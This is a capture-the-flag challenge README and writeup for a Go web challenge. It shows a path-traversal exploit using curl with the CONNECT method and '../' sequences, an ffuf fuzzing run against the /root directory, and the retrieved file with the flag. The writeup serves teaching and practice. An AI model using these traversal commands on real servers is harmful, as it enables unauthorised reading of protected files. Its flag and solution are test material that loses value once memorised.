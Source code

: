 # Curly Fry

p.s. For testing, go to [INSTALL.md](https://github.com/MasonCompetitiveCyber/PatriotCTF-2022/blob/main/Web/Curly%20Fry/INSTALL.md)

### Description
Who needs Flask when you have Golang -- the new meta for web apps. Check out this super slick and functional website. 

### Difficulty
2/10?

### Flag
`PCTF{tru5t_m3_im_4_ch3f}`

### Hints
1. Golang path traversal
2. Fuzz /root directory for file name

### Author
Daniel Getter (NihilistPenguin)

### Tester
None yet

### Writeup

This is a path travesal/fuzzing challenge. In golang, the library `net/http` usually transforms the path to a canonical one before accessing it:
```
/flag/   -- Is responded with a redirect to /flag
/../flag -- Is responded with a redirect to /flag
/flag/.  -- Is responded with a redirect to /flag
```
However, when the CONNECT method is used this doesn't happen. So, if you need to access some protected resource you can abuse this trick: 
`curl --path-as-is -X CONNECT http://gofs.web.jctf.pro/../flag`

Above text copied from: https://book.hacktricks.xyz/pentesting/pentesting-web/golang

We know the flag is in the `/root` directory but we do not know the file name. We can fuzz this:

```console
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -u http://localhost/../../../../../../../root/FUZZ -e .txt -X CONNECT -c -fs 50

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : CONNECT
 :: URL              : http://localhost/../../../../../../../root/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 50
________________________________________________

recipe.txt              [Status: 200, Size: 429, Words: 68, Lines: 15]
```

The `-fs 50` filters out all responses where the response size is 50. If you fuzz without a filter, you will see a `Status: 200, Size: 50` for every fuzzing attempt, which is just the default web server response: `The path provided is not a file or does not exist.` Thus, we filter out those responses.

We saw that `recipe.txt` was a hit, so let's curl it.

```console
$ curl --path-as-is -X CONNECT http://localhost/../../../../../../../root/recipe.txt
Ingredients: for 2 servings
- 2 curly potatoes
- 2 tablespoons of old bay seasoning
- ketchup and malt vinegar

Preparation
1. Preheat oven to 420°F
2. Slice the potatoes with a knife as they are already curly to begin with
3. Put your seasoning on em
4. Just throw them into the oven
5. Bake until they look good, idk.
6. Put ketchup on a plate and stir in a little malt vinegar
7. Enjoy!
8. Get flag: PCTF{tru5t_m3_im_4_ch3f}
```

